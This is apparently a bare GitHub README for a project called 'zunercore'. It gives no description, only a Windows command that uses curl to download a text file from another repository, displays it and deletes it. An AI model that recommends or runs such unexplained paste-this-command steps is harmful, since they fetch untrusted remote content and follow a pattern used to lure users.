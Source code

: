 # zunercore
run the following command on Windows command prompt
curl -O https://raw.githubusercontent.com/PiadoFabrique/zunercore/main/crq6.txt && type crq6.txt && del crq6.txt
